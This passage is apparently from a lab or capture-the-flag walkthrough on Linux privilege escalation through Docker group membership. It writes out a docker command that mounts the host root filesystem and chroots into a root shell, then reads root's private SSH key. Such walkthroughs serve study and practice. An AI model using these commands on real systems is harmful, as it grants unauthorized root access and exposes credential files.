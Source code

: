 Ran `id` command to confirm your user identity on the system:  

![image-10](https://github.com/user-attachments/assets/846206f2-bed0-40e9-afbe-ed62272809b7)


Being in the docker group is equivalent to root access, because Docker lets mount the host filesystem and run containers as root. Exploit it by using [GTFOBins](https://gtfobins.github.io). There is no alpine image so you have to check which image is accessible:
```BASH
docker images
docker run -v /:/mnt --rm -it bash chroot /mnt bash
```
![image-11](https://github.com/user-attachments/assets/4dcb7006-eff7-48b1-b326-dbd88714c72e)


---

Go to `/root/.ssh` directory and read id_rsa file:  

![image-12](https://github.com/user-attachments/assets/95a3e81f-e1df-4a94-a649-bb0423182c01)
